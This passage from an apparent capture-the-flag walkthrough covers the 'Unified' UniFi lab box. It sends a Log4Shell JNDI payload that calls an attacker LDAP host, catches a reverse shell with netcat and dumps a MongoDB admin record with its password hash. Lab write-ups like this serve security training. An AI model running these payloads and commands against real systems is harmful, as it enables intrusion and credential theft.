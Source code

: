 Going back to our intercepted POST request, let's change the payload to $`{jndi:ldap://10.10.16.15:1389/o=tomcat}` and click Send. We get the shell:

```sh
$ nc -l 9001
whoami
unifi
```

We can upgrade the terminal shell using the following command:

```sh
script /dev/null -c bash
```

Let's find the MongoDB port:

```sh
unifi@unified:/usr/lib/unifi$ ps aux | grep mongo
ps aux | grep mongo
unifi         66  0.5  4.1 1103748 85424 ?       Sl   19:36   0:08 bin/mongod --dbpath /usr/lib/unifi/data/db --port 27117 --unixSocketPrefix /usr/lib/unifi/run --logRotate reopen --logappend --logpath /usr/lib/unifi/logs/mongod.log --pidfilepath /usr/lib/unifi/run/mongod.pid --bind_ip 127.0.0.1
unifi        894  0.0  0.0  11468   996 pts/0    S+   20:04   0:00 grep mongo
```

> 27117

#### 9. What is the default database name for UniFi applications?

> ace

#### 10. What is the function we use to enumerate users within the database in MongoDB?

> db.admin.find()

#### 11. What is the function we use to update users within the database in MongoDB?

> db.admin.update()

#### 12. What is the password for the root user?

Let's interact with the MongoDB:

```sh
unifi@unified:/usr/lib/unifi$ mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
<17 ace --eval "db.admin.find().forEach(printjson);"
MongoDB shell version v3.6.3
connecting to: mongodb://127.0.0.1:27117/ace
MongoDB server version: 3.6.3
{
	"_id" : ObjectId("61ce278f46e0fb0012d47ee4"),
	"name" : "administrator",
	"email" : "administrator@unified.htb",
	"x_shadow" : "$6$Ry6Vdbse$8enMR5Znxoo.WfCMd/Xk65GwuQEPx1M.QP8/qHiQV0PvUc3uHuonK4WcTQFN1CRk3GwQaquyVwCVq8iQgPTt4.",
	...
```
